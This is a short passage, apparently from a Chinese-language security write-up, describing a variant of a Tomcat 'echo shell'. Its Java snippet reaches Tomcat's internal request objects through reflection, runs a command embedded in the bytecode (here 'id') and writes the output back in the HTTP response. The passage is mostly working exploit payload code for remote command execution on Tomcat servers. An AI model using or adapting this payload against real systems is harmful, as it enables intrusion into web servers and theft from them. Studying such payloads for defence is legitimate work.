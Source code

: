 因此回显马也可以改为如下：（不推荐，在 Tomcat 低版本不可用）

```java
for (Object processor : processors) {
    Integer stage = (Integer) getFieldValue(processor, "stage");
    if (stage == 7) { // org.apache.coyote.Constants#STAGE_ENDED
        continue;
    }
    // org.apache.coyote.Request
    Object coyoteRequest = getFieldValue(processor, "req");
    // org.apache.catalina.connector.Request
    Object request = invokeMethod(coyoteRequest, "getNote", new Class[]{Integer.TYPE}, new Object[]{1});
    // org.apache.catalina.connector.Response
    Object response = invokeMethod(request, "getResponse", null, null);
    String data = "id"; // 直接将执行命令内置在字节码中
    PrintWriter writer = (PrintWriter) invokeMethod(response, "getWriter", null, null);
    try {
        writer.write(run(data));
    } catch (Throwable e) {
        e.printStackTrace(writer);
    }
    invokeMethod(response, "setStatus", new Class[]{Integer.TYPE}, new Object[]{201});
    writer.flush();
    writer.close();
    return;
}
```
